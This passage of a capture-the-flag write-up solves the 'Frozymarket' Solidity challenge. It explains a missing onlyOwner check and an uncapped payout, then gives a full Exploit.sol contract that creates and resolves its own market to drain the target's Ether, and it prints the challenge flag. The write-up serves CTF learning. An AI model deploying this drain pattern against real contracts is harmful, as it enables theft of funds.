 The function above will check for the winner in the `marketIndex` provided, but the `payout` is not restricted to the balance of the individual `bettingMarket`, which mean if we managed to win in a bettingMarket, then we can get every single Ether from the Challenge contract, so now how do we actually win?

Another flaw in the Challenge contract is the fact that it has `onlyOwner()` modifier but it doesn't being implemented anywhere around the contract, which mean functions like `createMarket()` and `resolveMarket()` is open for us to use, in order to `resolveMarket()` function to be called tho, we need to be the `owner` of the market, which mean we cannot resolve the market that was created by the Setup contract. Knowing the possibility now we can actually create the attack.

### Solution

The function `Challenge.sol::createMarket()` allow us to create a market that only we will interact, by doing that we are also the `owner` of that market, thus can call `Challenge.sol::resolveMarket()`, with the knowledge of that here is our attack plan

Exploit plan:
1. Create a Market by calling `createMarket()`
    - Make sure the `resolvesBy` is `0` to bypass the require check on `resolveMarket()`
2. Bet on the market we created
3. call the `resolveMarket()` to close the market
4. call `claimWinnings()` to get all the balance from the `Frozymarket Contract`

#### Exploit
```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import "./Challenge.sol";
import "./Setup.sol";

contract Exploit{
    Frozymarket FM;
    Setup public setup;

    constructor(address _setup) payable {
        require(msg.value == 1, "Require 1 wei to Attack!");
        setup = Setup(_setup);
        FM = Frozymarket(setup.TARGET());
    }

    function exploit() external payable{
        FM.createMarket("WINWINWIN", 0);
        FM.bet{value: 1}(1, true);
        FM.resolveMarket(1, true);
        FM.claimWinnings(1);
    }

    receive() external payable {}
}
```
{: file="Exploit.sol"}

> gctf{m0m_I_finally_m4d3_m0ney_g4mbl1ng_0n_th3_bl0ckch41n}